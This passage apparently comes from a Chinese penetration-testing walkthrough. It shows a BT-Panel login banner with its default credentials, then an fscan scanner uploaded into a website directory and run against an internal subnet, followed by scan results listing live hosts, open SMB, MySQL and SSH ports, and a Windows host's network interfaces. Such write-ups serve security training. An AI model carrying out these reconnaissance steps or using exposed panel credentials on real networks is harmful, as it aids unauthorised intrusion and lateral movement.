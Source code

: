 

```bash
==================================================================
BT-Panel default info!
==================================================================
外网面板地址: http://:8888/3c34c719
内网面板地址: http://192.168.8.88:8888/3c34c719
*以下仅为初始默认账户密码，若无法登录请执行bt命令重置账户/密码登录
username: iyi3rpcl
password: b0f1a4a7
If you cannot access the panel,
release the following panel port [8888] in the security group
若无法访问面板，请检查防火墙/安全组是否有放行面板[8888]端口
==================================================================
```



```bash
http://192.168.8.88:8888/3c34c719
http://www.cf1.com:8888/3c34c719

iyi3rpcl
b0f1a4a7
```

#### 上传fscan

```bash
cd /www/wwwroot/www.cf1.com
chmod +x /www/wwwroot/www.cf1.com/fscan
./fscan -h 10.223.82.0/24 >fscan2.txt
```



```bash
start infoscan
(icmp) Target 10.223.82.21    is alive
(icmp) Target 10.223.82.23    is alive
(icmp) Target 10.223.82.254   is alive
[*] Icmp alive hosts len is: 3
10.223.82.21:3306 open
10.223.82.23:445 open
10.223.82.21:445 open
10.223.82.21:888 open
10.223.82.23:8080 open
10.223.82.23:3306 open
10.223.82.23:139 open
10.223.82.21:139 open
10.223.82.23:135 open
10.223.82.21:135 open
10.223.82.254:80 open
10.223.82.21:80 open
10.223.82.21:22 open
10.223.82.21:21 open
10.223.82.21:8888 open
10.223.82.21:9999 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]10.223.82.21
   [->]WIN-E51D0KVTE03
   [->]10.10.1.1
   [->]10.10.10.1
   [->]192.168.182.1
   [->]10.223.82.21
   [->]169.254.39.91
```